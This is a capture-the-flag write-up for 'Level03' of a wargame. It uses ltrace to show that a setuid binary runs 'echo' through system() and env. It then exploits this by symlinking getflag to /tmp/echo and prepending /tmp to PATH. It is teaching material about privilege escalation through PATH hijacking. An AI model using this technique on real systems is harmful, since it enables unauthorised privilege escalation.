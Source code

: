 # Level03

## Initial Check

When logged in as the Level03 user, we find a file named `level03` in the directory. First, we examine this file using the `ltrace` command.

```bash
ltrace ./level03
__libc_start_main(0x080484a4, 1, 0xbffff854, 0x08048510, 0x08048580 <unfinished ...>
getegid()                                      = 2003
geteuid()                                      = 2003
setresgid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280) = 0
setresuid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280) = 0
system("/usr/bin/env echo Exploit me")        <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed>                           = 0
+++ exited (status 0) +++
```

## Analysis

1. When executed, the program runs the command `/usr/bin/env echo Exploit me` using the `system()` function
2. This command will use the first `echo` command found in the PATH variable
3. We can manipulate the PATH variable to execute our desired command

## Solution Steps

1. First, we create a fake `echo` command in the `/tmp/` directory:
```bash
ln -s /bin/getflag /tmp/echo
```

2. We update the PATH variable to include the `/tmp/` directory:
```bash
export PATH=/tmp/:$PATH
```

3. We run the program:
```bash
./level03
```

## Explanation

In this level, we exploit a privilege escalation vulnerability by manipulating the PATH variable. When the program executes the `echo` command, it checks the directories specified in the PATH variable sequentially. By adding the `/tmp/` directory to the beginning of PATH, we make the program execute our fake `echo` command (which is actually a symbolic link to the `getflag` command).
